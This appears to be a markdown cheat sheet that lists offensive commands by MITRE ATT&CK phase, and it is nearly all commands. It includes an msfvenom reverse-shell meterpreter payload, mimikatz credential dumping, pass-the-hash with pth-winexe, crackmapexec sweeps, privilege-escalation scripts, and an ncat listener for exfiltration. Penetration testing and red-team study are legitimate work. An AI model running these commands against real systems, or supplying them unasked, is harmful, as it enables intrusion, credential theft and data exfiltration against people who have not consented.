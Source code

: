 # Framework MITRE ATT&CK Integration

## Reconnaissance (Initial Access)
- Banner Grabbing
  ```bash
  nmap -sV --script=banner {target}
  ```
- DNS Enumeration
  ```bash
  fierce -dns {domain}
  dnsenum {domain}
  ```
- OSINT Gathering
  ```bash
  theHarvester -d {domain} -l 500 -b all
  ```

## Execution
- Service Exploitation
  ```bash
  msfconsole -x "use exploit/multi/handler"
  ```
- Web Application Testing
  ```bash
  nikto -h {target}
  dirb http://{target}
  ```

## Persistence
- Backdoor Creation
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} LPORT={port}
  ```
- Credential Harvesting
  ```bash
  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
  ```

## Privilege Escalation
- Linux Enumeration
  ```bash
  ./linpeas.sh
  ./linux-smart-enumeration/lse.sh -l 2
  ```
- Windows Enumeration
  ```bash
  ./winPEAS.exe
  PowerUp.ps1
  ```

## Lateral Movement
- Network Scanning
  ```bash
  nmap -sn {network}/24
  crackmapexec smb {network}/24
  ```
- Pass The Hash
  ```bash
  pth-winexe -U Administrator%{hash} //{target} cmd.exe
  ```

## Data Exfiltration
- Data Compression
  ```bash
  7z a -p{password} data.7z {target_files}
  ```
- Covert Channels
  ```bash
  ncat -lvp {port} > received_data
  ```
